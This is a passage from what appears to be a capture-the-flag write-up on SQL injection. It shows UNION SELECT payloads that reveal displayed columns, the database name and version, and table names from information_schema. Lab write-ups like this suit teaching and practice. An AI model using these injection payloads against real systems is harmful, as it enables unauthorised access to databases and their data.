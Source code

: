 - Now if we try UNION SELECT 1,2,3,4 again we get an output - we see that parameters 2 and 3 are displayed:

![image31](../resources/d2a4ceb89d594f129abac025febb001b.png)

**<u>Enumeration:</u>**

- Using UNION SELECT 1,version(),database(),4 we can get the:
db name - **sqhell_5**

version (ubuntu) - **8.0.23**


![image32](../resources/d868b6ca3705408791dc268eaf48efaf.png)

- Building on that we can get the table names:

```bash
UNION SELECT 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = "sqhell_5"

```

![image33](../resources/3b3aa535a5194ea0bb10956e1d89b989.png)
